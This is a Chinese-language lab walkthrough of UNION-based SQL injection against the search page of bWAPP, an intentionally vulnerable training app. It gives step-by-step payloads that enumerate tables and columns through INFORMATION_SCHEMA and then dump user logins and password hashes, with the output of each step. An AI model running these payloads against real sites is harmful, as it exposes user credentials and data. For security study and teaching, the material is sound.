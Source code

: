 # SQl get search 注入

## 分析 

直接点击search会列举当前数据表中全部内容,显然在这里需要我们注入

## low

输入单引号,报错提示在 % 附近.猜测参数被形如'% %'形式包裹没有过滤,直接带入数据库查询

1 尝试用1'-- - 绕过成功,直接使用sql语句测试即可

2 探测输出位置

依次输入 select 1...select 1,2 直至 

1'union select 1,2,3,4,5,6,7-- -

成功返回 2,3,5,4,Link 视为成功

3 进行详细探测

1'union select 1,table_name,database(),user(),version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database()-- -

将会返回具体信息,查看当前数据库

返回

```
Title 	Release 	Character 	Genre 	IMDb
blog 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
heroes 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
movies 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
users 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
visitors 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
```

可以看出user应该存储了我们想要的信息

4 对users表结构探测

1'union select 1,column_name,3,4,5,6,7 from INFORMATION_SCHEMA.columns where table_name='users'-- -

随即返回

```
id 	3 	5 	4 	Link
login 	3 	5 	4 	Link
password 	3 	5 	4 	Link
email 	3 	5 	4 	Link
secret 	3 	5 	4 	Link
activation_code 	3 	5 	4 	Link
activated 	3 	5 	4 	Link
reset_code 	3 	5 	4 	Link
admin 	3 	5 	4 	Link
```

可以看出 id,login,passord就是我们预期的字段

5 获取数据

1'union select 1,id,login,password,5,6,7 from users-- -

```
1 	A.I.M. 	5 	6885858486f31043e5839c735d99457f045affd0 	Link
2 	bee 	5 	6885858486f31043e5839c735d99457f045affd0 	Link
3 	aideyisu 	5 	c26444766fdf3f92132890fa65daaa09c3e16846 	Link
```
